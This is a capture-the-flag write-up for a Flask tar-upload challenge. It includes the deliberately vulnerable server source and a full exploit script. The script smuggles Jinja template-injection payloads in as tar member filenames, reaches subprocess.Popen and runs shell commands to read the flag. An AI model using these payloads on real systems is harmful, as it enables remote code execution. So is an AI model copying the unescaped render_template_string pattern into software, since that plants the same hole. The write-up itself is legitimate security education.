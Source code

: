 +++
title = 'File Sharing Portal'
tags = [
  "Web",
  "Python",
  "Template Injection",
  "498 points",
  "119 solves",
  "NoobMaster + NoobHacker"
]
date = 2024-08-06T11:27:07+02:00
draft = true
+++

<h1 style='text-decoration: underline;text-decoration-color: #9e8c6c;font-size: 3em;'>File Sharing Portal</h1>

**Description**: Welcome to the file sharing portal! We only support tar files!

## Introduction

The ctf has a very simple structure: we have a form in which we are asked to insert a [tar](https://en.wikipedia.org/wiki/Tar_(computing)) file; once the tar file has been inserted, it is unzipped and we are shown the `name` of files it contains; by clicking on the different files, we can read their contents.

## Source

**The source has comments added later to allow a better understanding of the code in the writeups**

```python
# filename: server.py

#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import tarfile
from hashlib import sha256
import os
app = Flask(__name__)

@app.route('/',methods=['GET','POST'])
def main():
    # This function mainly deals with loading the tar file into the server's file system.
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        file = request.files['file']
        if file.filename[-4:] != '.tar': # Check that the file passed is actually a tar file
            return render_template_string("<p> We only support tar files as of right now!</p>") # Otherwise, it renders an error message
        name = sha256(os.urandom(16)).digest().hex() # Creates a random name that it will use to name our tar and the folder in the server's file system
        os.makedirs(f"./uploads/{name}", exist_ok=True) # Create the directory
        file.save(f"./uploads/{name}/{name}.tar") # Save the tar file
        try:
            # Extract the tar file
            tar_file = tarfile.TarFile(f'./uploads/{name}/{name}.tar')
            tar_file.extractall(path=f'./uploads/{name}/')
            return render_template_string(f"<p>Tar file extracted! View <a href='/view/{name}'>here</a>")
        except:
            return render_template_string("<p>Failed to extract file!</p>")

@app.route('/view/<name>')
def view(name):
    # This function displays the files contained in the .tar file
    if not all([i in "abcdef1234567890" for i in name]): # Check that the file name is in hexadecimal, to avoid any kind of malicious input 
        return render_template_string("<p>Error!</p>")
        #print(os.popen(f'ls ./uploads/{name}').read())
            #print(name)
    files = os.listdir(f"./uploads/{name}") # List all files in the previously created folder 
    out = '<h1>Files</h1><br>'
    files.remove(f'{name}.tar')  # Remove the tar file from the list
    for i in files:
        out += f'<a href="/read/{name}/{i}">{i}</a>' # Show via templates all file names
       # except:
    return render_template_string(out) # Render the template with the render_template_string function

@app.route('/read/<name>/<file>')
def read(name,file):
    # The function shows the contents of the single file
    if (not all([i in "abcdef1234567890" for i in name])): # Check that the file name is in hexadecimal, to avoid any kind of malicious input 
        return render_template_string("<p>Error!</p>")
    if ((".." in name) or (".." in file)) or (("/" in file) or "/" in name):  # Other controls to avoid path er
        return render_template_string("<p>Error!</p>")
    f = open(f'./uploads/{name}/{file}') # Open the file
    data = f.read()
    f.close()
    return data # Return the content of file

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)


```

We can therefore see that there are several parameter checks, and at first one might think that the code is `100%` safe.

## Solution

The first thing that came to mind was to create a [symbolic link](https://www.futurelearn.com/info/courses/linux-for-bioinformatics/0/steps/201767) to access the flag, and indeed this works (try with server.py), the problem is that the filename of the flag is unknown and this does not allow us to create a valid symbolic link.

Once we realised this, we did a thorough analysis of the code and came to the conclusion that the only thing that was not being checked was the name of the unpacked tar file allowing us to insert anything. By combining this with the '`render_template_string`' function (a vulnerable function of flask), it is possible to perform a [template injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#what-is-ssti-server-side-template-injection).

```python
# filename: exploit.py

import requests
import os
import tarfile
from bs4 import BeautifulSoup

url = 'http://redacted.challs.n00bzunit3d.xyz:8080/'


def create_tar(tar_name, file):
    with tarfile.open(tar_name, 'w') as tar:
        tar.add(file, arcname=os.path.basename(file))
    print(f'Tar file created: {tar_name}')


def create_payload(payload):
    with open(payload, 'w') as f:
        f.write('Remember to byte the cookies')

    create_tar('exploit.tar', payload)
    print(f'Payload created: {payload}')


def get_url_view(text):
    soup = BeautifulSoup(text, 'html5lib')
    return [a['href'] for a in soup.find_all('a', href=True)][0]


def leak_subprocess_index():
    payload = "{{int.__class__.__base__.__subclasses__()}}"
    create_payload(payload)

    r = requests.post(url, files={'file': open('exploit.tar', 'rb')})

    url_file = get_url_view(r.text)
    r = requests.get(url + url_file)
    text = r.text[r.text.index('[')+1:]

    list_classes = text.split(',')

    for i, c in enumerate(list_classes):
        if 'subprocess.Popen' in c:
            print(f'Index subprocess.Popen: {i}')
            return str(i)


def get_flag(index):
    payload = "{{int.__class__.__base__.__subclasses__()[" + \
        index + "]('cat *', shell=True, stdout=-1).communicate()}}"
    create_payload(payload)

    r = requests.post(url, files={'file': open('exploit.tar', 'rb')})

    url_file = get_url_view(r.text)
    r = requests.get(url + url_file)

    flag = r.text[r.text.index('n00bz{'):r.text.index('}')+1]
    print(f'Flag: {flag}')


def main():
    subprocess_index = leak_subprocess_index()
    get_flag(subprocess_index)


if __name__ == '__main__':
    main()


```

```stdout
$ flag: n00bz{n3v3r_7rus71ng_t4r_4g41n!_b3506983087e}
```

<p align='right'>Author: akiidjk </p>